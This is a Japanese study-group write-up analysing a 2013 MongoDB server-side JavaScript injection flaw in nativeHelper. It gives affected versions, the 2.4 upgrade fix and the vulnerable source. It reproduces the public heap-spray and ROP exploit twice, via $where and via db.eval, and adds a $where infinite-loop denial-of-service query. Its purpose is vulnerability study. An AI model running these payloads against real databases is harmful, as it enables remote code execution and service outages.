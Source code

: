 nativeHelper()に伴う脆弱性について
=================

#はじめに

2013/03/26 にマイナビニュースに掲載された、MongoDBの脆弱性について検証します。

- [MongoDBに脆弱性](http://news.mynavi.jp/news/2013/03/26/158/index.html)

## 影響を受けるバージョン

- MongoDB 2.2以前のバージョン（ただし、ビルド時にJavaScriptエンジンをV8に設定しているものは除く）

## 対策

一番簡単なのはMongoDB 2.4へのバージョンアップです。  

## 情報源

一次情報 mongodb – SSJI to RCE  
http://blog.scrt.ch/2013/03/24/mongodb-0-day-ssji-to-rce/  

日本語情報 MongoDBに脆弱性  
http://news.mynavi.jp/news/2013/03/26/158/index.html  


## exploiteコード

my_collectionを存在するcollectionへ変更して、下記のコードを実行
```js
db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
```

evalでも同様に落ちる
```
db.eval(function() {shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);})
```

## 何が問題？

native_helper()内のNativeFunction funcがxというJavaScriptのオブジェクトをチェック無しでcallすることが問題（らしい）  
  
src/mongo/scripting/engine_spidermonkey.cpp
```js
JSBool native_helper( JSContext *cx , JSObject *obj , uintN argc, jsval *argv , jsval *rval ) {
        try {
            Convertor c(cx);
            NativeFunction func = reinterpret_cast(
                    static_cast( c.getNumber( obj , "x" ) ) );
            void* data = reinterpret_cast<void*>(
                    static_cast( c.getNumber( obj , "y" ) ) );
            verify( func );

            BSONObj a;
            if ( argc > 0 ) {
                BSONObjBuilder args;
                for ( uintN i = 0; i < argc; ++i ) {
                    c.append( args , args.numStr( i ) , argv[i] );
                }
                a = args.obj();
            }

            BSONObj out;
            try {
                out = func( a, data );
            }
            catch ( std::exception& e ) {
```

run、run_とmongo shellでソースを見ると、{x : "xxxxx"}というハッシュになっていることがわかる
```js
> run
function () {
    return nativeHelper.apply(run_, arguments);
}

>run_
{ "x" : 4295168976 }

```

runはmongo shellから、shellのコマンドを実行するための関数。  
なのでチェック無しで実行しているのだろうか（勉強会での議論に続く）



## 今回とは別のダメな例

```js
db.test.find({'$where':'while(1){};return true;'}) 
```

## 2.4から$whereのセキュリティが向上した

2.4 からグローバルオブジェクトにアクセスできない制限が入った



